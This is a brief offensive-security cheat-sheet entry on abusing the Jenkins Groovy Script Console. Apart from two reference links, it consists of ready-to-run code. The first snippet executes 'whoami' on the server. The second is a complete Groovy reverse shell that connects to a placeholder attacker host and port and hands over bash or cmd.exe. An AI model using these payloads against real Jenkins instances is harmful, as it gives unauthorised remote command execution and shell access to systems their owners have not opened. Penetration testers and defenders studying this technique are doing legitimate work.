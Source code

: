 # Jenkis




## Script Console Abuse

* [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
* [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

Manage Jankis > Script Console > Run:

{% code title="exec.groovy" %}
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
{% endcode %}

{% code title="rev.groovy" %}
```groovy
String host = "<LHOST>";
int port = <LPORT>;
String cmd = "bash";  // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}

